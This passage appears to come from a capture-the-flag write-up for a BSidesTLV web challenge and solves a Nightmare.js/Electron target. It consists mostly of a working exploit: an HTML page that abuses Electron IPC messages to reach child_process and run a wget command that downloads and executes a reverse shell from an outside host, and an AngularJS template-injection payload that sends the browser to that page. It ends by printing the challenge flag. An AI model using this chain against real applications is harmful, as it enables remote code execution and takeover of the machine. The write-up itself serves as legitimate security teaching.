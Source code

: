 <div class="filename"><span>exploit.html</span></div>

```html
<!doctype html>
<html>
    <head>
        <meta charset="utf-8">
        <title>nightmarejs</title>
    </head>
    <body>
        <script>
            "use strict";
            function exec() {
                try {
                    var sendSync = __nightmare.ipc.sendSync;
                    if (typeof sendSync !== "function") {
                        return;
                    }
                } catch (e) {
                    return;
                }
                /*
                 * ELECTRON_BROWSER_REQUIRE returns metadata for
                 * module.exports, and the actual object is stored in
                 * the objectsRegistry (see valueToMeta())
                 */
                var proc = sendSync("ELECTRON_BROWSER_REQUIRE", "child_process");
                /*
                 * ELECTRON_BROWSER_MEMBER_CALL retrieves a module object from
                 * the objectsRegistry and calls the specified method with an
                 * array of arguments processed by unwrapArgs()
                 */
                var args = [{
                    type: "value",
                    value: "wget -O /tmp/rev http://h4ckerman.ddns.net/rev; chmod +x /tmp/rev; /tmp/rev"
                }];
                sendSync("ELECTRON_BROWSER_MEMBER_CALL", proc.id, "exec", args);
            }
            exec();
        </script>
    </body>
</html>
```

Serve the reverse shell (generated with `msfvenom`) to Nightmare, and have it execute the reverse shell with the following AngularJS expression.

```
{% raw %}{{constructor.constructor("document.location='http://h4ck3rman.ddns.net/exploit.html'")()}}{% endraw %}
```
Meanwhile in our `nc` listener.

![5a5a03ee.png](/assets/images/posts/bsidestlv-web/5a5a03ee.png)

The flag is `BSidesTLV{AngularjS_is_Freddy_Krueger}`.
